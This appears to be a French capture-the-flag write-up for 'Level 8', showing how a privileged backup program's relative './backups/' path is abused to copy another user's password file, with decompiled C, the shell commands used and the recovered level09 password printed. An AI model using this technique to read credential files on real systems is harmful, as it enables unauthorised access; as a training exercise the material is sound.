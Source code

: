 # Level 8

On commence par tester l'exécutable.

```
> ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

Le programme attend un argument et semble ouvrir un fichier.
Regardons un peu le code décompilé. 

```C
log_wrapper(arg1, "Starting back up: ", argv[1]);
iVar3 = fopen(argv[1], 0x400da9, 0x400da9);
if (iVar3 == 0) {
	printf("ERROR: Failed to open %s\n", argv[1], argv[1]);
	exit(1);
}
```
L'exécutable attend donc bien un argument, et va ouvrir le fichier en paramètre.
On peut alors tenter de mettre le `path` du `password` de `level09` en argument du programme.

```
> ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
L'exécutable nous met un message d'erreur. Nous pouvons supposer que le programme va créer une copie du fichier passé en argument puis va insérer tout cela dans le dossier `backups` suivi du `path` saisis en paramètres. Le `path` indiqué est un `path` relatif, cela va nous servir pour réaliser un exploit. 

Pour vérifier notre hypothèse, nous allons créer un fichier `test` dans `/tmp` avec une phrase dedans. Puis nous allons lancer le programme avec notre fichier créé comme argument.

```
> cd /tmp
> python -c "print 'super verif'" > /tmp/test
> ~/level08 /tmp/test
ERROR: Failed to open ./backups/.log
> mkdir ./backups
> ~/level08 /tmp/test
ERROR: Failed to open ./backups//tmp/test
> mkdir -p ./backups//tmp
> ~/level08 /tmp/test
> cat backups/tmp/test
super verif
```

Nous avons donc créé notre fichier avec du texte dedans. En lançant l'exécutable, nous avons eu plusieurs erreurs, car le dossier `./backups//tmp` n'existait pas. Le programme ne pouvait donc pas copier le résultat du fichier `test` dedans.
Notre hypothèse est vérifiée. Nous pouvons donc faire la même manipulation avec le `path` du `password` du `level09`.

```
> cd /tmp
> rm -rf *
> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
> mkdir ./backups
> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
> mkdir -p ./backups//home/users/level09
> ~/level08 /home/users/level09/.pass
> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Nous obtenons bien le `password` du `level09`.